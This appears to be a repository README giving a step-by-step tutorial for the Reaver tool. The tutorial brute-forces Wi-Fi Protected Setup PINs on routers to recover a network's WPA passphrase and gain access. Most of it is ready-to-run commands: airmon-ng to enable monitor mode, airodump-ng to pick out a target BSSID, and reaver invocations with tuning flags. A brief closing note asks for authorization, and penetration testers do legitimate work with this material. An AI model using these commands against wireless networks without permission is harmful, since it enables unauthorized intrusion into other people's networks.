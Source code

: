 # reaver

Reaver is a tool used in cybersecurity to exploit vulnerabilities in the Wi-Fi Protected Setup (WPS) implementation on many routers, allowing an attacker to gain access to a network by brute-forcing the WPS PIN. Here's a detailed step-by-step tutorial to guide you through using Reaver.

### Step-by-Step Tutorial for Using Reaver

#### Prerequisites
1. **Kali Linux**: Ensure you have Kali Linux installed as it comes pre-installed with Reaver.
2. **Wireless Network Adapter**: Use a wireless network adapter capable of packet injection (e.g., Alfa AWUS036NHA).

#### Step 1: Install Reaver (if not installed)
Reaver usually comes pre-installed with Kali Linux. To check if it's installed, open a terminal and type:
```bash
reaver -h
```
If it's not installed, you can install it using:
```bash
sudo apt-get update
sudo apt-get install reaver
```

#### Step 2: Set Up Your Wireless Adapter
You need to set your wireless adapter to monitor mode to capture packets.
1. **Identify your wireless adapter**:
   ```bash
   ifconfig
   ```
   or
   ```bash
   iwconfig
   ```
   Look for an interface like `wlan0`.

2. **Set the adapter to monitor mode**:
   ```bash
   sudo airmon-ng start wlan0
   ```
   This command will create a new interface (`wlan0mon`).

#### Step 3: Identify the Target Network
Use `airodump-ng` to scan for available networks and identify the target:
```bash
sudo airodump-ng wlan0mon
```
Note the BSSID (MAC address) and the channel (CH) of the target network.

#### Step 4: Focus on the Target Network
Run `airodump-ng` on the specific channel to focus on the target network:
```bash
sudo airodump-ng -c [channel] --bssid [BSSID] -w [filename] wlan0mon
```
Replace `[channel]` with the target's channel, `[BSSID]` with the target's BSSID, and `[filename]` with your desired output file name.

#### Step 5: Run Reaver
With the necessary information, you can now run Reaver to start the brute-force attack on the WPS PIN.
```bash
sudo reaver -i wlan0mon -b [BSSID] -c [channel] -vv
```
Replace `[BSSID]` and `[channel]` with the respective values of the target network. The `-vv` flag enables verbose output.

#### Step 6: Monitoring Progress
Reaver will start trying different PIN combinations to access the network. This process can take several hours depending on the router's response rate and the WPS PIN's complexity. You'll see output indicating each PIN attempt and any progress made.

#### Step 7: Handling Failures
If Reaver gets stuck or isn't making progress, you can try additional options:
- **Change the delay between attempts**:
  ```bash
  sudo reaver -i wlan0mon -b [BSSID] -d [delay] -vv
  ```
  Replace `[delay]` with the desired delay in seconds.

- **Specify the timeout period**:
  ```bash
  sudo reaver -i wlan0mon -b [BSSID] -t [timeout] -vv
  ```
  Replace `[timeout]` with the desired timeout period in seconds.

- **Use advanced options** to handle more resilient routers:
  ```bash
  sudo reaver -i wlan0mon -b [BSSID] -vv -N -S
  ```
  - `-N`: Disables NACK (Negative Acknowledgement) messages.
  - `-S`: Uses small DH keys to improve performance on some routers.

#### Step 8: Gaining Access
Once Reaver successfully finds the WPS PIN, it will display the PIN and the network's WPA/WPA2 passphrase. You can then use this passphrase to connect to the Wi-Fi network.

#### Step 9: Clean Up
After the attack, return your wireless adapter to its original state:
1. **Stop monitoring mode**:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```
2. **Restart network services** (if necessary):
   ```bash
   sudo service NetworkManager restart
   ```

### Ethical Considerations
Always remember to use Reaver responsibly and only on networks you own or have explicit permission to test. Unauthorized access to networks is illegal and unethical.

### Conclusion
By following these steps, you should be able to use Reaver to test the security of Wi-Fi networks protected by WPS. Always ensure you have proper authorization before performing any penetration testing activities.